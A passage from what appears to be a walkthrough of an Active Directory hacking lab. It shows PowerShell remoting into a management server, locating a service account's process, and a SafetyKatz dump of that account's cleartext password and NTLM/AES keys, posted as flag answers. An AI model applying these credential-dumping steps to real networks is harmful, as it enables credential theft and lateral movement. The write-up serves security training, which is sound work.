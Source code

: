 ```powershell
           rc4_hmac_old      b38ff50264b74508085d82c69794a4d8
           rc4_md4           b38ff50264b74508085d82c69794a4d8
           rc4_hmac_nt_exp   b38ff50264b74508085d82c69794a4d8
           rc4_hmac_old_exp  b38ff50264b74508085d82c69794a4d8
```

```powershell
Enter-PSSession -ComputerName dcorp-mgmt -Credential (Get-Credential)
```

and discover the process associated to svcadmin user:

```powershell
Get-Process -IncludeUserName | Where-Object { $_.UserName -match "svcadmin" }
```

<figure><img src="../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

### Flag 11 \[dcorp-mgmt] - NTLM hash of svcadmin account 🚩

As the last point, based on the SafetyKatz output we can see the svcadmin's ntlm hash (rc4\_hmac\_nt)

```powershell
Authentication Id : 0 ; 86511 (00000000:000151ef)
Session           : Service from 0
User Name         : svcadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/10/2025 9:28:52 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1118

         * Username : svcadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : *ThisisBlasphemyThisisMadness!!
         * Key List :
           aes256_hmac       6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011
           aes128_hmac       8c0a8695795df6c9a85c4fb588ad6cbd
           rc4_hmac_nt       b38ff50264b74508085d82c69794a4d8
           rc4_hmac_old      b38ff50264b74508085d82c69794a4d8
           rc4_md4           b38ff50264b74508085d82c69794a4d8
           rc4_hmac_nt_exp   b38ff50264b74508085d82c69794a4d8
           rc4_hmac_old_exp  b38ff50264b74508085d82c69794a4d8
```

### Flag 12 \[dcorp-adminsrv] - We tried to extract clear-text credentials for scheduled tasks from? Flag value is like lsass, registry, credential vault etc 🚩
